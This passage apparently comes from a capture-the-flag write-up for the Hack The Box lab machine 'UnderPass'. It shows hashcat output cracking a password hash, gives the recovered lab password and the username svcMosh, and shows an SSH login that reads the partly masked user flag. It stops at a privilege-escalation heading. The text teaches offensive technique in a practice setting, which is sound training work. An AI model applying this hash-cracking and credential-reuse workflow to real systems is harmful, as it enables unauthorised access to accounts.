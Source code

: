 ```
Speed.#1.........:  4793.1 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2984448/14344384 (20.81%)
Rejected.........: 0/2984448 (0.00%)
Restore.Point....: 2983936/14344384 (20.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: underwear6 -> underfak

Started: Fri Jul 25 11:12:22 2025
Stopped: Fri Jul 25 11:12:30 2025
```

In just one second, the hash was cracked! The password is `underwaterfriends`. The username associated with the username we can find on the dashboard: `svcMosh`. Let's try SSH with these credentials.

We get in, and we can collect the user flag:

```
$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 25 09:18:22 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   49.6% of 6.56GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62

svcMosh@underpass:~$ cat user.txt
1a97b501576d5626de844d8e5474****
```

## Privilege Escalation
